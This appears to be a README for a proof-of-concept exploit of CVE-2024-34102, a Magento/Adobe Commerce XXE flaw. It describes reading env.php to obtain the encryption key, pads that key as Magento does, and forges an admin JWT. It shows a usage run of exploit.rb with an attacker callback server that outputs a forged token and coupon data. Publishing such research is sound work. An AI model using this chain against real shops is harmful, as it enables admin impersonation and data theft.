 # CVE-2024-34102: Magento admin user impersonation via arbitrary file read

## Information  

**Vendor Description**: Adobe Commerce and Magento Open Source are affected by an Improper Restriction of XML External Entity Reference ('XXE') vulnerability that could result in arbitrary code execution. An attacker could exploit this vulnerability by sending a crafted XML document that references external entities. Exploitation of this issue does not require user interaction. 
**Versions Affected**: Adobe Commerce and Magento Open Source 2.4.7, 2.4.6-p5, 2.4.5-p7, 2.4.4-p8 and earlier.   
**Researcher:** [Sergey Temnikov](https://github.com/spacewasp)   
**Write-up Link:** Coming soon  
**NIST CVE Link:** https://www.cve.org/CVERecord?id=CVE-2024-34102  


The security flaw arises from improperly handling nested deserialization in Adobe Commerce and Magento. This vulnerability allows attackers to exploit XML External Entities (XXE) during deserialization. In essence, attackers can craft malicious JSON payloads that instantiate objects with unintended properties or behaviors when deserialized by the application ([source](https://github.com/spacewasp/public_docs/blob/main/CVE-2024-34102.md)).

In his write-up, [Sergey Temnikov](https://github.com/spacewasp) suggested that this vulnerability could be chained with CVE-2024-2961 to achieve remote code execution. He also proposed using this vulnerability to read the `env.php` file and obtain the encryption key, which would allow generating a JWT token to impersonate an admin user.

However, the available exploits and write-ups we have found only cover the basic arbitrary file read vector. Therefore, we decided to go beyond that and demonstrate how to use the CVE-2024-34102 to impersonate an admin user.

### Token generation

Plenty of write-ups about the vulnerability itself are available, so we will skip the details and focus on what those write-ups lack: token generation.

After reading the `env.php` file and obtaining the encryption `'crypt' => [ 'key' => ...`, we immediately tried to generate a token, but it didn't work. The token was invalid. That's because, in Magento, the key must be 2048 characters long; if it is not, padding will be applied. 

```php
   public function __construct(DeploymentConfig $deploymentConfig, JwkFactory $jwkFactory)
    {
        $this->keys = preg_split('/\s+/s', trim((string)$deploymentConfig->get('crypt/key')));
        //Making sure keys are large enough.
        foreach ($this->keys as &$key) {
            $key = str_pad($key, 2048, '&', STR_PAD_BOTH);
        }
        $this->jwkFactory = $jwkFactory;
    }
```
<!----><div align="center">
([source](https://github.com/magento/magento2/blob/2.4-develop/app/code/Magento/JwtUserToken/Model/SecretBasedJwksFactory.php#L39-L41))
</div>

### Exploit

We have created a script that reads the `env.php` file, extracts the encryption key, and generates a JWT token to impersonate an admin user. The script is available [here](./exploit.rb).

### Usage

```bash
$ ruby exploit.rb http://localhost http://host.docker.internal:8000
Starting web server...
Generated JWT: eyJraWQiOiIxIiwiYWxnIjoiSFMyNTYifQ.eyJ1aWQiOjIsInV0eXBpZCI6MiwiaWF0IjoxN....
Sending request with JWT to coupons endpoint
Available coupons:
{
  "items": [
    {
      "coupon_id": 2,
      "rule_id": 2,
      "code": "100OFF",
      "usage_limit": 1000,
      "usage_per_customer": 1000,
      "times_used": 0,
      "is_primary": true,
      "created_at": "2024-07-21 18:14:43",
      "type": 0
    }
  ],
  "search_criteria": {
    "filter_groups": [

    ]
  },
  "total_count": 1
}
Exploit completed
```